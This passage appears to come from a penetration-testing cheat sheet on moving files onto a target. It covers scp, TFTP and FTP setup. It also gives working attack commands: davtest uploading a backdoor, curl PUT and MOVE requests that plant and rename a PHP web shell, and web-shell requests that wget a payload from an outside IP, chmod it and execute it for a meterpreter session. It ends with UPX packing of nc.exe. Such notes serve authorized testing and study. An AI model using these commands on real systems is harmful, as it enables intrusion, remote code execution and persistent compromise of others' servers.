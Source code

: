     -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/
        
        scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~
        

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

    -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec>tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files
    -------------------------------------------------------------------------------------------------------------

    -   Ultimate Packer for eXecutables  
        upx -9 nc.exe
